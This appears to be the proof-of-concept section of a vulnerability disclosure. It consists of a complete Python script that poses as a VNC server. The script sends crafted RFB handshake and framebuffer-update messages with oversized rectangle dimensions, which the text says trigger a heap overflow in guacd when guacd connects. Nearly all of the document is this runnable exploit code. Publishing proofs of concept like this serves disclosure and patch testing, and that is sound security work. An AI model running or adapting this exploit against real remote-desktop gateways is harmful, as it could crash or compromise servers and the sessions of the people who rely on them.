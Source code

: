# Proof of Concept

The following Python script (`vnc-server.py`) can be used to mimic a VNC server
which will trigger the heap overflow when connected to by `guacd`:

```py
import sys
import socket
import time

listen_port = int(sys.argv[1])

try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.bind(('0.0.0.0', listen_port))
        s.listen()
        conn, addr = s.accept()
        with conn:
            print(f"Connected by {addr}")

            # send protocol version
            conn.send(b'RFB 003.007\n')
            data = conn.recv(1024)
            print('Client protocol version:', data)

            # send security types
            conn.send(b'\x02\x01\x10')
            data = conn.recv(1)
            print('Client selected security type:', data)

            # client share desktop flag
            data = conn.recv(1)
            print('Client share desktop flag:', data)

            # send server framebuf params
            conn.send(b'\xff\xff\xff\xff \x18\x00\x01\x00\xff\x00\xff\x00\xff\x10\x08\x00\x00\x00\x00\x00\x00\x00\x03' + b'poc')

            # client pixel format, encodings, framebuf update req
            data = conn.recv(20)
            print('Client set pixel format:', data)
            data = conn.recv(80)
            print('Client set encodings:', data)

            data = conn.recv(10)
            print('Client framebuffer update request:', data)

            server_fbu = b'\x00' # message-type
            server_fbu += b'\x00' # padding
            server_fbu += b'\x00\x01' # number-of-rectangles
            server_fbu += b'\x00\x00\x00\x00\xf4\x3d\x43\x15\x00\x00\x00\x00' # rectangle heading
            server_fbu += b'A'*0xf43d*0x4315*4 # rectangle data
            conn.sendall(server_fbu)

            print('Client response:', conn.recv(1024))

            time.sleep(100)
finally:
    s.close()
```
